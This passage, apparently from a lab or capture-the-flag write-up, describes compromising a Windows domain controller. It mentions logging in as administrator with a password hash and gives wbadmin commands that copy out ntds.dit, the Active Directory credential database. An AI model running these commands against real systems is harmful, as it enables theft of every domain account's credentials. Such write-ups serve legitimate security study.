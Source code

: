 I was then able to authenticate as administrator using the hash.

![](assets/2022-05-11_08-12.png)

## Alternate Method to get NTDS.dit file

Wbadmin is a backup utility built into windows since Windows Server 2008, and uses an elevated command prompt for the purpose of backups. I read that this was an alternative method of gaining access to the ntds.dit file, and it worked as advertised. 

```
wbadmin start backup -quiet -backuptarget:\\dc01\c$\temp -include:c:\windows\ntds
```

![](assets/2022-05-11_08-45.png)

```
wbadmin get versions
wbadmin start recovery -quiet -version:05/11/2022-19:43 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\temp -notrestoreacl
```
